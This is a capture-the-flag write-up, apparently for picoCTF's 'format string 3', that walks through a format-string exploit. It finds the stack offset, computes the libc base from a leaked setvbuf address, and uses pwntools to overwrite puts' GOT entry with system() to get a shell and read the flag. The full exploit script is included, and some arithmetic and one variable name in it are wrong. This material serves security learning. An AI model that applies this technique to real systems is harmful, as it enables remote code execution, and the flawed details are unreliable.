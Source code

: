 # format string 3

## Solving

```
This program doesn't contain a win function. How can you win?
Download the binary here.
Download the source here.
Download libc here, download the interpreter here. Run the binary with these two files present in the same directory.
Connect with the challenge instance here:
nc rhea.picoctf.net 49363
```

```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
        setvbuf(stdin, NULL, _IONBF, 0);
        setvbuf(stdout, NULL, _IONBF, 0);
        setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
        puts("Howdy gamers!");
        printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
        char *all_strings[MAX_STRINGS] = {NULL};
        char buf[1024] = {'\0'};

        setup();
        hello();

        fgets(buf, 1024, stdin);
        printf(buf);

        puts(normal_string);

        return 0;
}
```

Lookin at format-string-3.c source file we see no evidence of a flag file but references to /bin/sh, so we can assume our task is to spawn a shell.

The use of printf(buf), will be our format vulnerability.

Now essentially near the end after the ``printf`` vuln we see the puts statement for the function to spawn a shell. If we can change this ``puts`` to a syscall we can spawn a shell. 

Now like the last challenge let's first find the offset where the user input is placed on.

We can do this with our payload of ``(python3 -c 'print("1"*8 + ",%llx" * 50)')``

We can send this using python3

```shell
hadakoi@Laptop:~/ctfsolve$ (python3 -c 'print("1"*8 + ",%llx" * 50)') | ./format-string-3
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7fe3d04c93f0
  11111111,7fe3d0627963,fbad208b,7ffe85115400,1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,3131313131313131,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c
/bin/sh
```
Now over here we can see our offset is 38

It also seems to have given the address of setvbuf in libc. 

Now back to the files they have given us they have provided us with a libc file. which is a core system library containing providing all the functions that programmes need for basic operations. When a program is compiled, many of its functions are not included in the binary itself. Instead, the program relies on external libraries like ``libc`

Now essentially over here we must find the address of ``system()`` we can only do this when we have the base pointer of libc and calculating a potential offset from the actual address. 

Hence because they have leaked to us the address of setvbuf in libc which is ``0x7fe3d04c93f0`` we can find the base pointer for this by doing ``(leaked setvbuf address) - (offset address of setvbuf)``

``libc base address=Actual address − Offset address``


Now we can load up the lib into gdb to find the offset address  ``setvbuf`` 

```shell
hadakoi@Laptop:~/ctfsolve$ gdb ./libc.so.6
GNU gdb (Ubuntu 15.0.50.20240403-0ubuntu1) 15.0.50.20240403-git
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./libc.so.6...

This GDB supports auto-downloading debuginfo from the following URLs:
  <https://debuginfod.ubuntu.com>
Enable debuginfod for this session? (y or [n]) y
Debuginfod has been enabled.
To make this setting permanent, add 'set debuginfod enabled on' to .gdbinit.
(No debugging symbols found in ./libc.so.6)
(gdb) info address setvbuf
Symbol "setvbuf" is at 0x7a3f0 in a file compiled without debugging.
(gdb)
```

Now that we know its ``0x783f0`` we can subtract this from ``0x7fe3d04c93f0`` This makes the libc base address ``0x7fe3d04c5f00``

However upon rerunning the script we realise that the leaked address changes on each runtime.

Now luckily pwntools has a cool feature where unlike last time I do not have to do all those weird calculations but can rather link the function from the linkc address 

```python                                                                  
from pwn import *

context.arch = 'amd64' # making sure everything is sent in correct instruction set

exe = "./format-string-3"
elf = ELF(exe)
libc = ELF("./libc.so.6")

p = remote("rhea.picoctf.net", 57804)

start = 38 # start of the offset on the programme stack

p.recvuntil(b'setvbuf in libc: ')
leakaddress = int(p.recvline().strip(), 16)
print("setvbuf @ %#x" % leak)

libc.address = leakaddress - 0x000000000007a3f0
print("libc @ %#x" % libc.address) # Calculating the true address

payload = fmtstr_payload(start, {elf.sym.got.puts: libc.sym.system}) #

p.sendline(payload)
p.interactive()
```

Now the main part here is the ``payload = fmtstr_payload(start, {elf.sym.got.puts: libc.sym.system})`` 

the ``fmtstr_payload()`` is uses to generate a payload we also have the starting spot of where the input is entered into which was our offset on the stack of 38

``elf.sym.got.puts`` refers to the GOT entry for puts()

---

**NOTE:** GOT is a table used by programmes that use shared libraries (like libc) to store the addresses of functions the program will call
for example in this case when a programm needs to call ``puts()`` instead of directly calling it the programme calls the ```GOT`` entry for puts which is a placeholder this points to the ``put()`` address present in libc.

As such we can exploit this changing this address that it knows for puts to the address for ``system()``.

---

libc.sym.system gives you the address of the system() function in the libc binary you've loaded. This is possbile as we calculated for the base address of the libc library

This address for system is what we use to overwrite the GOT entry for puts, so when the program tries to call puts, it will actually call system() instead. This is often used to spawn a shell (i.e., execute a command) when you pass it a command like /bin/sh.


Now running this script we end up managing to open up a shell allowing us to look around the directory to which i then see a file ``flag.txt`` from here I just cat the flag.txt retruning us the flag to which i can promptely exit the session.

```shell
hadakoi@Laptop:~/ctfsolve$ python3 script.py
[*] '/home/hadakoi/ctfsolve/format-string-3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
[*] '/home/hadakoi/ctfsolve/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to rhea.picoctf.net on port 57804: Done
setvbuf @ 74c6d5a3a3f0
libc @ 74c6d59c0000
[*] Switching to interactive mode
                                                                                               c                   \x8b                                           \xd0                                                   \x00                                 \x00aaaaba\x18ls
Makefile
artifacts.tar.gz
flag.txt
format-string-3
format-string-3.c
ld-linux-x86-64.so.2
libc.so.6
metadata.json
profile
$ cat flag.txt
picoCTF{G07_G07?_f574d38f}$
```

## Flag

> picoCTF{G07_G07?_f574d38f}
